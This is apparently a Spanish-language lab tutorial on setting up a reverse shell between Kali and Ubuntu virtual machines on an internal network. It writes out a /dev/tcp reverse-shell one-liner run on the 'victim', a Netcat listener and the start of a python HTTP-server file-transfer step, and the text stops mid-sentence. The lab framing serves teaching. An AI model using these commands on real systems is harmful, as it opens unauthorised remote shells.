








1. Identificar las IP de ambas máquinas
Para esta ocasión usamos 2 máquinas Linux, una Kali y otra Ubuntu ambas dentro de una red interna llamada LAB para permitir la conexión en las dos.

En ambas máquinas, usa el siguiente comando para conocer la dirección IP de la interfaz de red principal en esta ocasión (eth0 y enp0s3):

ifconfig Como vemos, no nos dio una IP en automático porque la pusimos en modo red interna, por lo que la asignaremos de manera manual a ambas máquinas.

Nota: podemos realizar un ping de la una a la otra para verificar su visibilidad en ambas máquina.

Crear el payload de conexión Puedes generar el comando de conexión desde la página RevShells, que facilita la creación del payload al ingresar los datos necesarios:

IP de la máquina atacante

Puerto (comúnmente 443)

Shell (bash -i)

El resultado será un comando similar a:

sh -i >& /dev/tcp/10.10.10.2/443 0>&1 Nota: este comando se ejecuta en la máquina víctima para establecer la conexión inversa hacia la máquina atacante.

Escuchar desde la máquina atacante Antes o después de generar el payload, coloca tu máquina atacante en modo escucha con Netcat (como indica en la misma pagina de revshell en donde lo creamos):

nc -nlvp 443 Posteriormente ejecutamos el comando desde la maquina victima

sh -i >& /dev/tcp/10.10.10.2/443 0>&1 

Esto permite recibir la conexión cuando el payload se ejecute en la máquina víctima.

Descargando archivo via http. Ahora desde la maquina atacante montamos un servidor en python con el siguiente comando:

python3 -m http.server 8080 Desde

